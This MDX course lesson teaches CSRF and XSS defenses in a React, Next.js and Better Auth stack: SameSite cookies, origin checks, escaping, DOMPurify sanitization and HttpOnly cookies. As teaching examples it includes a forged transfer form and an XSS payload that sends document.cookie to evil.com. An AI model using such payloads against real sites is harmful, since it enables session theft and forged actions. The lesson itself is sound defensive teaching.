

import CourseProgressBar from '../../../components/ui/CourseProgressBar.astro';
import Figure from '../../../components/figures/Figure.astro';
import CodeTooltips from '../../../components/code/CodeTooltips.astro';
import Term from '../../../components/ui/Term.astro';
import Buckets from '../../../components/exercises/buckets/Buckets.astro';
import Bucket from '../../../components/exercises/buckets/Bucket.astro';
import Item from '../../../components/exercises/buckets/Item.astro';
import MultipleChoice from '../../../components/exercises/multiple-choice/MultipleChoice.astro';
import McqChoice from '../../../components/exercises/multiple-choice/McqChoice.astro';
import McqWhy from '../../../components/exercises/multiple-choice/McqWhy.astro';
import XssTwoSinks from '../../../components/lessons/054/4/xss-two-sinks.astro';
import DefenseStack from '../../../components/lessons/054/4/defense-stack.astro';
import VideoCallout from '../../../components/embeds/VideoCallout.astro';
import ExternalResource from '../../../components/ui/ExternalResource.astro';
import { CardGrid } from '@astrojs/starlight/components';

<CourseProgressBar value={frontmatter['course-progress']} />

For three lessons you've been building the session: gating the routes that need it, changing the credentials behind it, listing and revoking it across devices.
This lesson stops adding and asks whether that session can be stolen or hijacked, through the two classic web vulnerabilities.
CSRF asks whether a malicious site can make requests *as* your signed-in user; XSS asks whether an attacker's input can *run as code* inside your user's page.

For both, the 2026 stack has already done most of the work: React 19, Next.js 16, and Better Auth ship these defenses turned on by default, configured the moment you stood up auth.
Your job here is not to build them but to understand the ones already running, and to spot the single line in a pull request that would switch one off.
One layer waits its turn: the Content Security Policy and the rest of the security headers get a dedicated pass in the pre-launch audit project later in the course.

## CSRF: a forged request riding your session cookie

An attacker controls a site, `evil.com`.
On one page they hide a form: invisible, set to submit itself the moment the page loads, pointed at your app.

```html
<form action="https://app.example.com/api/transfer" method="POST">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="5000" />
</form>
```

A user with a live session on your app clicks a link to `evil.com`, from a phishing email or a sketchy ad.
The page loads, the hidden form fires a `POST` at `app.example.com/api/transfer`, and the browser attaches your app's session cookie to it.
The cookie belongs to `app.example.com` and the request is going to `app.example.com`, so the browser sends it.
Without a defense, your server sees a valid cookie and a live session, and runs the transfer, authenticated as a victim who never clicked anything on your domain.

That's <Term definition={"Cross-Site Request Forgery — an attack that tricks a logged-in user's browser into making a request they didn't intend, riding on the session cookie the browser attaches automatically."}>CSRF</Term>, Cross-Site Request Forgery: the browser's cookie-attaching reflex turned against you.
The attacker never reads or steals the cookie; the browser sends it for them.

So the defense can't be hiding the cookie better, since the attacker can't read it anyway.
The fix is to teach the cookie when *not* to ride along: keep it in the browser's pocket for cross-site, background requests like this one, while still sending it for legitimate requests from your own site.

<VideoCallout videoId="80S8h5hEwTY" videoTitle="CSRF, demonstrated and fixed (Web Dev Simplified)">
  Web Dev Simplified runs the exact attack in this lesson: an auto-submitting form on a different origin, the cookie riding along automatically (10 min). It reaches for a CSRF token as the fix; we get the same protection for free from `SameSite=Lax`, which the next section explains.
</VideoCallout>

## SameSite=Lax: the CSRF defense you already shipped

Back in [Session and cookie config](/052-better-auth-setup/3-session-lifetimes-and-cookie-hardening/) you set the session cookie's attributes: the `__Host-` prefix, `HttpOnly`, `Secure`, and the one that matters here, <Term definition={"A cookie attribute that controls whether the cookie rides along on cross-site requests. Lax sends it only on top-level navigations to the site; Strict never sends it cross-site; None always sends it."}>`SameSite`</Term>`=Lax`.
That single attribute is the entire CSRF defense for the standard shape, and it has been on the whole time.

`Lax` sends the cookie on top-level navigations, when the user clicks a link to `app.example.com` or types it in the address bar, so the user stays signed in.
On a cross-site subrequest, exactly the attacker's background `POST` fired from a form on `evil.com`, the browser withholds it.
The forged request still reaches your app, just with no session cookie.

From there the outcome is fixed.
The request hits your transfer action carrying no session, so `requireUser`, the validating read you built in [Reading the session everywhere](/052-better-auth-setup/4-reading-the-session-everywhere/), looks up the session, finds nothing, and returns 401.
The transfer never happens.
No token, no hidden form field, no extra code on your side: the cookie simply didn't show up to the attack.

<Figure caption="The attacker can make the browser send the request, but not the cookie. With no cookie, the validating read sees nobody.">

</Figure>

This is why the course never built a CSRF-token layer.
The classic defenses, synchronizer tokens and double-submit cookies, were invented for a web where cookies rode along on every cross-site request, including the attacker's.
There you needed a secret value the attacker couldn't read, echoed back on every mutation, to tell a real request from a forged one.
`SameSite=Lax` removes the premise: the cookie no longer rides on the forged request, so there is nothing for a token to distinguish.
The layer is unnecessary for the same-origin shape, an ordinary Next.js form or Server Action posting back to its own origin.

## Three plausible ways developers reopen CSRF

The default is safe and costs nothing, so the only way CSRF comes back is if you turn it off.
The footgun is never an attack you failed to anticipate.
It's a line of code you wrote yourself, for a reason that sounded sensible at the time.
Here are the three ways a developer does it.

**One: flipping `SameSite=None`.**
Someone needs to embed your app in a cross-site iframe, say a third-party widget or a checkout on a partner's domain, and notices the session cookie isn't riding along inside the frame, so the embed shows the user signed out.
They search for why, and the top answer says to set `SameSite=None`.
It works: the cookie now rides in the iframe.
It also rides on `evil.com`'s background `POST`, and on every other cross-site request to your app.
You didn't loosen the cookie for the embed, you loosened it for the entire internet, and CSRF is back on every endpoint at once.
The real fix was never the attribute: don't drive authenticated mutations from a cross-site frame in the first place.

**Two: adding `Domain=example.com`.**
Someone wants a sibling subdomain, `marketing.example.com`, to read the session cookie that lives on `app.example.com`.
That means dropping the `__Host-` prefix, which forbids a `Domain` attribute by design, then adding `Domain=example.com` so the cookie spreads across subdomains.
Now every subdomain of `example.com` is in the cookie's blast radius, including any an attacker comes to control through a dangling DNS record or a forgotten staging host.
The `__Host-` prefix existed precisely to prevent this, and a sibling subdomain that needs the session almost always has a cleaner answer.

**Three: building a cross-site browser flow at all**, like a marketing site that `POST`s into the app, then "fixing the cookie" to make it work.
The cookie change is downstream of the architecture decision that was the actual mistake.

One reflex sits under all three, and it's the one to make automatic: when `SameSite=Lax` or `__Host-` feels like it's blocking you, the architecture is the problem, not the cookie.
A cross-site authenticated mutation is a warning sign.
Redesign the flow before you loosen the attribute.

:::caution[The moment you type SameSite=None, CSRF protection is off site-wide]
`SameSite=None` doesn't open a hole for one endpoint or one embed.
It tells the browser to attach the cookie on *every* cross-site request to your app, exactly the behavior `Lax` was protecting you from.
If you reach for it, stop and fix the flow that made you want it.
:::

:::caution[Dropping __Host- to add Domain= widens the blast radius to every subdomain]
The `__Host-` prefix forbids `Domain` on purpose: it pins the cookie to the exact host that set it.
Drop the prefix, add `Domain=example.com`, and you've handed the cookie to every present and future subdomain, including any an attacker takes over.
:::

## The Server Actions origin check

Your forms might `POST` to API routes, but Server Actions are the other path your app mutates data through, and Next.js 16 ships a built-in CSRF check on them.

When a Server Action runs, the framework compares the request's `Origin` header against the `Host` it's serving, using `X-Forwarded-Host` behind a proxy, and rejects the Action if they don't match.
The default is same-origin only.
That sits behind `SameSite=Lax` as defense in depth: if a cross-site `POST` ever slips past the cookie attribute, the origin check still refuses to run the Action.

You can widen this.
`serverActions.allowedOrigins` in `next.config.ts` takes an array of origins you declare safe to invoke your mutations, but it's a security-review surface, not a default to reach for.
The senior reflex is to never disable the check and to treat every addition, such as a reverse proxy or a real multi-host setup, as a reviewed decision rather than a quick unblock.
The durable fact is that the framework checks `Origin` against `Host`; only the config nesting shifts between versions.

```ts title="next.config.ts"
const nextConfig = {
  serverActions: {
    allowedOrigins: ['app.example.com'],
  },
};
```

Better Auth follows the same pattern with `trustedOrigins`, the allowlist from the cookie-hardening lesson: the library refuses to set auth cookies on origins outside it, and it defaults to your `baseURL`.
You add an origin only for a real cross-origin client, like a mobile webview or a browser extension, never `['*']`.
Two allowlists, one in the framework and one in the library, with the same instinct: the default is narrow, and every widening is a decision someone reviewed.

:::note[Two layers, in order]
A cross-site mutation has to clear *both* walls.
The cookie has to attach, and `SameSite=Lax` drops it; the origin has to match, and the Server Actions check rejects it.
The cookie attribute is the first line, the framework origin check the second.
:::

## When CSRF tokens are still the right defense

You'll meet the two classic CSRF defenses in pre-2020 code.
With the **synchronizer token**, the server plants a secret in the page, the form echoes it back, and the server checks the match.
With the **double-submit cookie**, the same secret sits in both a cookie and a request header, compared on arrival.
The 2026 stack ships neither, because `SameSite=Lax` plus the Server Actions origin check already close the threat for an app that talks to its own origin, leaving the token nothing to do.

The token earns its place again in one case: a genuinely cross-origin auth endpoint, such as a mobile webview hitting `api.example.com` by design.
Here the request *is* cross-site as a matter of architecture, not attack, so it is exactly the shape `Lax` was built to drop, and the cookie defense breaks.
When cross-origin is a real product requirement, you layer protection back, in senior-priority order:

- Keep the highest-stakes endpoints on `SameSite=Strict`, so the cookie never rides cross-site, even on navigations.
- Require a custom header the attacker's site can't forge: a non-standard header on a cross-origin request triggers a <Term definition={"Cross-Origin Resource Sharing — the browser's mechanism for controlling cross-origin requests. A request carrying a non-standard header triggers a preflight check that the attacker's site can't satisfy without your server's cooperation."}>CORS</Term> preflight the attacker can't get past.
- Or move those clients off cookies onto a Bearer token in the `Authorization` header, which isn't attached automatically and so isn't forgeable cross-site.

## XSS: attacker input parsed as code

Your app renders text a user typed: a comment on a thread, a profile bio, the body of a support ticket.
Now an attacker types not text but this into a comment box:

```html
<script>fetch('https://evil.com/steal?c=' + document.cookie)</script>
```

If your app drops that string into the page as HTML, the browser does what it does with any markup: it parses the `<script>` tag and runs the code inside, in the victim's browser, in your app's origin, under the victim's session.
From there the script can read anything JavaScript can read on that page, fire authenticated requests as the user, and exfiltrate data to a server the attacker controls.
One poisoned comment, and every user who views the thread runs the attacker's code.

That's <Term definition={"Cross-Site Scripting — attacker-controlled input gets parsed and executed as script inside another user's page, running in your app's origin under that user's session."}>XSS</Term>, Cross-Site Scripting: attacker input getting parsed as HTML or JavaScript instead of shown as text.
That tells you the defense at once.
You don't have to detect malicious strings or blocklist dangerous patterns, a hopeless task.
You just have to make sure untrusted input always renders as *text*, never as *markup*.
Show the characters; never parse the tag.

One detail in that payload pays off later.
The script reached for `document.cookie` to steal the session and came up empty: the session cookie is `HttpOnly`, set by Better Auth, so JavaScript can't read it and `document.cookie` doesn't include it.
The session is out of the attacker's reach by default, which is exactly why putting an auth token somewhere JavaScript *can* read it is so dangerous.

<VideoCallout videoId="z4LhLJnmoZ0" videoTitle="Cross-Site Scripting explained (IBM Technology)">
  IBM's Jeff Crume walks the anatomy of an XSS attack, from an injected comment to script running under the trusted site's origin to a session hijack, and the two defenses to remember: don't trust user input, and encode output (9 min).
</VideoCallout>

## React escapes every value by default

The XSS defense is even more automatic than the CSRF one: there isn't even an attribute to set.

Every `{value}` you interpolate in JSX is escaped.
As React writes a value into the DOM, it converts the HTML-significant characters `<`, `>`, `&`, and `"` into their inert entity equivalents, so the attacker's comment never becomes a `<script>` tag.
It lands in the DOM as the literal text `&lt;script&gt;...&lt;/script&gt;`, which the browser *displays* as the characters `<script>...` and never *parses* as a tag.
The script can't run because, as far as the browser is concerned, there is no script, just text that looks like one.

There is no "enable escaping" step, because escaping is never off:

```tsx
<div>{comment}</div>
```

If `comment` holds `<script>alert(1)</script>`, that `<div>` shows the visible, harmless text `<script>alert(1)</script>` and nothing executes.
That single behavior is the entire XSS defense for the overwhelming majority of rendering you will ever write.

One corner isn't covered.
A `javascript:` URL in an attribute is dangerous on its own: `<a href="javascript:alert(1)">` runs script on click, with no `<script>` tag needed.
React's handling of `javascript:` URLs has shifted across versions, so don't lean on behavior you can't see.
When a URL comes from a user, validate the scheme yourself rather than trusting the renderer to catch it.
That is the one place escaping alone won't save you, and the seam into the corners React leaves to you, a couple of sections from now.

<Figure caption="The same string, two sinks. The input never changed, only the prop that received it: the danger lives in the sink, not the input.">
  <XssTwoSinks />
</Figure>

## The footgun: dangerouslySetInnerHTML

Here is the dangerous sink in code.
React put the warning right in the name:

```tsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

This one prop bypasses auto-escaping entirely.
It injects the string you hand it into the DOM as raw HTML, with tags parsed and scripts run.
Any path that lets attacker-controllable input reach it is an XSS hole, and the name is the API telling you to stop and think.

So when *do* you reach for it?
Rarely, and only for a load-bearing reason: rendering rich text from an editor or sanitized HTML from a CMS is about the only common one.
When you do, a short discipline turns the hole into a controlled door.
Apply these in order:

- **Sanitize the input first.** Run it through a sanitizer that strips anything executable before it reaches the prop. `DOMPurify` is the 2026 standard.
- **Sanitize on the server, not in the browser.** Render the already-clean HTML in a Server Component so the un-sanitized string never reaches the client. Sanitizing in a client component means you shipped the dangerous string to the browser before cleaning it.
- **Allowlist, never blocklist.** Name the exact tags and attributes you permit and drop the rest. You will never finish enumerating every dangerous tag, and the attacker only needs the one you forgot, so start from "nothing allowed" and add back what you need.
- **Sanitize even "trusted" sources.** Sanitize your own CMS and your own admins anyway. Assume every input is reachable by some path eventually; a sanitizer on trusted input costs nothing when the trust turns out to be misplaced.

Here is that shape: `DOMPurify`, server-side, configured as an allowlist.

<CodeTooltips tooltips={{
  ALLOWED_TAGS: 'Allowlist of HTML tags that survive sanitization. Everything not listed is stripped.',
  ALLOWED_ATTR: 'Allowlist of attributes that survive. Here, only href — no onclick, no style, no event handlers.',
  ALLOWED_URI_REGEXP: 'Restricts which URL schemes are allowed in attributes — here, http and https only, so javascript: links cannot slip through.',
}}>
```ts
import DOMPurify from 'isomorphic-dompurify';

const clean = DOMPurify.sanitize(richText, {
  ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'ul', 'ol', 'li', 'h1', 'h2', 'h3'],
  ALLOWED_ATTR: ['href'],
  ALLOWED_URI_REGEXP: /^https?:\/\//i,
});
// must run on the server — the client never sees the un-sanitized richText
```
</CodeTooltips>

The package is `isomorphic-dompurify` for a reason: plain `dompurify` needs a real DOM, which Node lacks, so it can't run server-side on its own.
The isomorphic build wraps a DOM implementation so the same call runs in a Server Component, cleaning the HTML before it's ever sent.

Read that config like a firewall rule, because that's what it is.
`ALLOWED_TAGS` keeps the vocabulary of formatted text and nothing more; `ALLOWED_ATTR` permits only `href`, blocking event handlers and inline styles; `ALLOWED_URI_REGEXP` pins links to `http` and `https`, so a `javascript:` URL can't ride in on an `<a>`.
The config is part of your security posture: when it changes in a PR, review it like any other security change, because loosening it is as consequential as loosening a cookie attribute.

:::caution[Sanitizing in a client component already shipped the raw HTML]
If the sanitize call runs in a `'use client'` component, the un-sanitized string was sent to the browser first and cleaned second, so the dangerous payload already crossed the wire.
Sanitize on the server so the client only ever receives HTML that's already safe.
:::

## Corners React's auto-escaping doesn't cover

Auto-escaping covers almost all rendering, but a few corners sit outside it, worth recognizing on a PR.

**`href` and `src` with untrusted URLs.**
When a URL comes from a user, validate the scheme before you render it: allow `https:`, `mailto:`, and relative paths, and reject `javascript:` and the like.
`<a href={userUrl}>` with no scheme check passes every happy-path test and only bites when someone pastes a `javascript:` URL into their profile.

**`target="_blank"` and `rel="noopener noreferrer"`.**
A link opened in a new tab used to let the opened page reach back and hijack the original through `window.opener`.
Browsers now imply `rel="noopener"` for `target="_blank"`, so that hijack is mostly closed for you, but the implied default doesn't include `noreferrer`, which keeps the originating URL out of the `Referer` header sent to the opened page.
The senior default is to write `rel="noopener noreferrer"` explicitly: it adds the referrer-privacy benefit and documents the intent for the next reader.

**`eval`, `new Function`, and `setTimeout` with a string argument.**
Never feed user input to any of them: each turns a string into executing code, the XSS premise handed over voluntarily.
ESLint flags them, so you only need to recognize the category when a rule fires.

The `style` attribute is not an injection vector to worry about.
The old `background:url(javascript:...)` trick only reaches the page through raw HTML, that is, through `dangerouslySetInnerHTML`, which you've already locked down with sanitization.
The object form, `style={{ color: 'red' }}`, is safe: React won't let a string style smuggle a URL in.

Sort each line by whether it leans on a default the stack already ships or punches a hole through it.

<Buckets twoCol instructions="Each line is something you might find in a pull request. Sort each one by whether it leans on a default the stack already ships, or punches a hole through it.">
  <Bucket name="safe" label="Safe by default" description="Leans on a defense the stack already ships" />
  <Bucket name="footgun" label="Footgun — opens a hole" description="One line that switches a defense off" />

  <Item bucket="safe">`<div>{userComment}</div>`</Item>
  <Item bucket="footgun">`<div dangerouslySetInnerHTML={{ __html: userComment }} />`</Item>
  <Item bucket="safe">Session cookie with `SameSite=Lax`</Item>
  <Item bucket="footgun">Session cookie flipped to `SameSite=None`</Item>
  <Item bucket="safe">`<a href={validatedHttpsUrl}>`</Item>
  <Item bucket="footgun">`<a href={rawUserUrl}>` with no scheme check</Item>
  <Item bucket="safe">`__Host-` prefixed session cookie</Item>
  <Item bucket="footgun">Session cookie with `Domain=example.com` added</Item>
  <Item bucket="footgun">Auth token kept in `localStorage`</Item>
  <Item bucket="safe">Session in an `HttpOnly` cookie</Item>
</Buckets>

## HttpOnly cookies, and why tokens never go in localStorage

This is why the attacker's `document.cookie` payload came up empty.
`HttpOnly`, which Better Auth sets on the session cookie, means JavaScript cannot read the cookie: the browser still sends it on requests and the server still reads it, but `document.cookie` never includes its value.
So even a successful XSS, with attacker code running in the victim's page, can't read the session cookie out.
The one thing the payload most wanted to steal was the one thing the browser refused to hand to a script.

That is the structural protection, and here is the trade.
The moment a team puts an auth token in `localStorage` so JavaScript can read it and attach it to API calls, that token sits somewhere every script on the page can reach.
Now a single XSS doesn't just run code, it reads the token and walks off with the user's identity.
`HttpOnly` had closed that door; `localStorage` props it back open.

Stated the way you would in a review: session cookies stay `HttpOnly`, and auth tokens never go in `localStorage`.
If an architecture truly needs a JavaScript-readable token for a client that can't use cookies, name the threat out loud and pick the least-bad layer: in memory only, short-lived, paired with a refresh flow.

:::danger[An auth token in localStorage is readable by every script on the page]
One XSS and the token is gone, and unlike the `HttpOnly` session cookie, nothing stops the script from reading it. `HttpOnly` cookies are the default for exactly this reason. "Convenience" is not a threat model.
:::

## Content Security Policy: the third layer

Escaping and sanitization close the XSS threat for the rendering you write, but experienced engineers assume their own defenses have gaps and put a wall behind the wall.
That wall is the <Term definition={"Content Security Policy — an HTTP response header that tells the browser which sources of script, style, and other resources are allowed to load and run, so an injected script is refused even if it reaches the DOM."}>Content Security Policy</Term>.

A CSP is an HTTP response header that tells the browser what it may execute.
A policy that forbids inline scripts and allows only scripts from your own origin means an injected `<script>` won't run even if it reaches the DOM, because the browser refuses what the policy never sanctioned.
That is the third layer, behind escaping and sanitization.
The rest of the security headers ship alongside it through the `headers()` function in `next.config.ts`: `Strict-Transport-Security`, `X-Content-Type-Options: nosniff`, `Referrer-Policy`, `Permissions-Policy`, and the `Cross-Origin-*` set.

:::note[Where CSP and the header set get built]
Configuring a CSP is a pass of its own: nonces, hashes, `strict-dynamic`, and a report-only rollout so you don't break your own scripts on day one.
That work, along with the full `headers()` set, belongs to the pre-launch audit project near the end of the course.
This lesson only places the layer in the stack.
:::

## The mental model: layers and footguns

Both tracks have the same shape: a stack of layers, each safe by default, and for each layer exactly one footgun, a single line of code, that turns that one layer off.
The skill isn't memorizing attacks.
It's pointing at a footgun in a diff and naming the layer it just disabled.

<Figure caption="Every layer is safe by default. Each footgun is one specific line that disables one specific layer.">
  <DefenseStack />
</Figure>

The 2026 stack ships these defenses on.
You didn't build them; you only have to not break them.
So when a default feels like it's in your way, the architecture is the problem, not the default.
One recall check on that reflex:

<MultipleChoice>
  A teammate changes one line of the session cookie's configuration to unblock an embed. Which change hands a forged request from *any* origin a fully authenticated session — re-opening CSRF across every endpoint at once?

  <McqChoice correct>Telling the browser to attach the cookie on cross-site requests, not just top-level navigations to your own site.</McqChoice>
  <McqChoice>Keeping the cookie pinned to the exact host that set it, with no `Domain` attribute.</McqChoice>
  <McqChoice>Marking the cookie so JavaScript on the page can't read its value.</McqChoice>
  <McqChoice>Refusing to run a Server Action whose `Origin` header doesn't match the host serving it.</McqChoice>

  <McqWhy>That change is `SameSite=None`. `Lax` withholds the cookie on cross-site subrequests — the attacker's background `POST` arrives with no session, so the validating read sees nobody. Flip it to `None` and the browser attaches the cookie on *every* cross-site request, so a forged request from any origin now arrives authenticated, everywhere at once. The other three are defenses, not holes: a host-pinned cookie with no `Domain` is the `__Host-` guarantee, an unreadable cookie is `HttpOnly`, and the `Origin`-vs-`Host` rejection is the Server Actions check. The embed that tempted the change is an architecture problem, not a cookie-attribute one.</McqWhy>
</MultipleChoice>

## External resources

<CardGrid>
  <ExternalResource
    title="MDN — Set-Cookie & the SameSite attribute"
    href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie#samesitesamesite-value"
    icon="simple-icons:mdnwebdocs"
    iconColor="#000000"
    description="The durable reference for the cookie attribute that is the CSRF default: Lax vs Strict vs None and exactly when each one rides."
  />
  <ExternalResource
    title="web.dev — SameSite cookies explained"
    href="https://web.dev/articles/samesite-cookies-explained"
    icon="simple-icons:googlechrome"
    iconColor="#4285F4"
    description="Google Chrome's deep-dive on SameSite and how Lax closes CSRF, the most readable walkthrough of why the default works."
  />
  <ExternalResource
    title="Next.js — How to Think About Security"
    href="https://nextjs.org/blog/security-nextjs-server-components-actions"
    icon="simple-icons:nextdotjs"
    iconColor="#000000"
    description="The framework's own security guide, including the Server Actions Origin-vs-Host CSRF check this lesson names."
  />
  <ExternalResource
    title="OWASP — XSS Prevention Cheat Sheet"
    href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html"
    icon="simple-icons:owasp"
    iconColor="#000000"
    description="The canonical industry reference for output-encoding and sink-by-sink XSS rules. A reference to consult, not a survey to read end to end."
  />
</CardGrid>
